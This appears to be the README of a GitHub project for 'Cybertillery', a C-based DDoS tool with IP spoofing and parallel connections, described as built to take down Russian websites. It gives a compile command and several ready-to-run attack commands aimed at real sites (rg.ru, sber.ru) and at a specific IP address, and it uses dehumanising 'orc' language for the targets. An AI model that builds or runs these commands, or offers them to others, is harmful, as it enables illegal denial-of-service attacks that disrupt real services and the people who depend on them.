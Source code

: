 # Cybertillery - to fire on nasty orcs

DDoS tool with IP spoofing and ability to use parallel connections.
Built specifically to bring russian orc websites down to their knees.

## Compile command

```bash
gcc main.c -O2 -o bombard -lpthread
```

## Usage examples

### Attack with 10 connections using URL with protocol

```bash
sudo ./bombard -u https://rg.ru -c 10
```

### Attack with 4 connections using IP address and port

```bash
sudo ./bombard -a 194.190.37.226 -p 443 -c 4
```

### Attack for 60 seconds

```bash
sudo ./bombard -u rg.ru/ -p 443 -c 4 -d 60
```

### Send 1000000 packets

```bash
sudo ./bombard -u https://sber.ru -c 10 -n 1000000
```

